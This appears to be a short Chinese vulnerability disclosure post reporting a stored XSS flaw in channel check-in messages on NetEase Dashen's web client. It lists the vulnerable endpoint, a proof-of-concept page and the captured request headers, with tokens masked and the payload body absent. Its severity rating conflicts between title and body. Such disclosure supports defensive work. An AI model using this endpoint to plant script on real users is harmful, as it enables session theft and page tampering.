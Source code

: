 ```yaml
---
layout: post
title:  "中危：网易大神Web端频道签到消息存储型XSS漏洞"
date:   2023-10-19 10:26:18 +0800
categories: xss
---
```


## 漏洞名称

> 网易大神Web端频道签到消息存在存储型XSS漏洞

## 漏洞类型
> web漏洞，存储型XSS

## 危害等级
> 高危

## 漏洞URL
- POST https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg
- POC网页 https://ds.163.com/channel/0149881854/1459481/ 打开后在终端打印111222233
- 视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314

## 关键数据包

    POST /v1/web/chat-room-msg/send-msg HTTP/1.1
    Host: inf-im.ds.163.com
    Connection: close
    Content-Length: 586
    GL-CheckSum: 20c428fbe325f20d1ff139943dafd2334814804e_28aebbff3e33281f4afe3ebcf0b19ae90ba97998
    sec-ch-ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
    sec-ch-ua-mobile: ?0
    GL-Uid: xxxxxxx
    GL-DeviceId: 1189888043.1694780319
    Content-Type: application/json;charset=UTF-8
    Accept: application/json, text/plain, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    GL-ClientType: 61
    GL-Nonce: xxxx
    GL-X-XSRF-TOKEN: xxxxx
    sec-ch-ua-platform: "Windows"
    Origin: https://ds.163.com
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://ds.163.com/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
    Cookie: xxx
